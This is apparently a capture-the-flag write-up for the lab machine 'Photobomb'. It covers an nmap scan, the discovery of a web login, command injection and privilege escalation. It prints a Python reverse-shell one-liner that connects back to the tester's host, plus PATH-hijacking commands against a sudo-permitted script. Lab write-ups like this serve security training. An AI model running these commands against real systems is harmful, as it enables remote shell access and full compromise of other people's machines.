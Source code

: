 ```bash
└─$ sudo nmap -sC -sV 10.10.11.182
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-11 17:20 EST
Nmap scan report for 10.10.11.182
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.38 seconds
```

```bash
nano /etc/hosts
```
![Pasted image 20221211192733](https://user-images.githubusercontent.com/51139868/208265794-553928b0-9b2d-4806-88bc-62959538761a.png)

![Pasted image 20221211192921](https://user-images.githubusercontent.com/51139868/208265807-2908db27-005d-41c3-99c6-c27b8897620d.png)


Just fooling around, I decided to click on the *click here* link:

![Pasted image 20221211193036](https://user-images.githubusercontent.com/51139868/208265828-e2743ff2-f267-4ff5-a009-5fa21b8272e8.png)

Obviously I did not have any username and password, so I thought about checking the source-code for any hints

![Pasted image 20221211193506](https://user-images.githubusercontent.com/51139868/208265833-f3175281-4d01-462b-8f92-72d4b52a1c37.png)

By checking the .js code you're gonna find the following page:
![Pasted image 20221211193721](https://user-images.githubusercontent.com/51139868/208265838-f0042379-b321-4517-80b9-0723456abcb9.png)

![Pasted image 20221211193739](https://user-images.githubusercontent.com/51139868/208265848-5d2aee8d-c197-400c-b050-1ad78e5211e4.png)

And this is what you see after clicking 'ok'

![Pasted image 20221211193817](https://user-images.githubusercontent.com/51139868/208265854-2f73fca9-d361-4627-9cc8-327e333ae820.png)

After that I got my burp suite up and running... After a few tries, I got a successfull command injection, so I used revshells.com to get a reverse shell code:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.134",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And used it in my request 

![Pasted image 20221211200225](https://user-images.githubusercontent.com/51139868/208265876-45eab4a5-1e3b-4d5d-99b1-ddefafb74b63.png)

And there you go, user flag *cheeeck*!

Now, for the privesc + root flag I used the following commands:

```bash
sudo -l

$ cat /opt/cleanup.sh
$ echo bash > find
$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

Once you're root, just go to the default directory and get your root flag!
